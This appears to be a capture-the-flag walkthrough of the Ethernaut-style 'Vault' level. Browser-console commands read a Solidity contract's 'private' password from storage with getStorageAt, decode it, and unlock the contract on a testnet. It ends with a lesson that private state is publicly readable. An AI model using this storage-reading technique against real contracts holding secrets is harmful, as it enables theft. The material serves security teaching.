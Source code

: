8.Vault 
Unlock the vault to pass the level!

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}

>contract
n {methods: {…}, abi: Array(3), address: '0x97E95179608562E7Afa3d66d3Be7a588171E06b5', transactionHash: undefined, constructor: ƒ, …}

>contract.abi
(3) [{…}, {…}, {…}]
0: {inputs: Array(1), stateMutability: 'nonpayable', type: 'constructor', constant: undefined, payable: undefined}
1: {inputs: Array(0), name: 'locked', outputs: Array(1), stateMutability: 'view', type: 'function', …}
2: {inputs: Array(1), name: 'unlock', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
length: 3
[[Prototype]]: Array(0)

>await contract.locked()
true

>contract.address
'0x97E95179608562E7Afa3d66d3Be7a588171E06b5'

>var pwd
undefined

>web3.eth.getStorageAt(contract.address, 0, function(err, result) { pwd = result })
//0 is boolian value 'locked'
Promise {<pending>}

>pwd
'0x0000000000000000000000000000000000000000000000000000000000000001'

//passsword取得してしまおう
>web3.eth.getStorageAt(contract.address, 1, function(err, result) { pwd = result })
//1 is password 
Promise {<pending>}

>pwd
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'

>web3.utils.toAscii(pwd) //strong encryption 
'A very strong secret password :)'

//unlockするのにガス代払ってunlock完了
>await contract.unlock(pwd)
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xa96592a61f5a92b6f8240ce60612109cf22f05e0d2644fe8f9d88c88f0d9cf29
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xa96592a61f5a92b6f8240ce60612109cf22f05e0d2644fe8f9d88c88f0d9cf29
{tx: '0xa96592a61f5a92b6f8240ce60612109cf22f05e0d2644fe8f9d88c88f0d9cf29', receipt: {…}, logs: Array(0)}

>await contract.locked()
false


Its important to remember that marking a variable as private only prevents other contracts from accessing it. 
State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. 
In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. 
zk-SNARKs provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.

https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/
















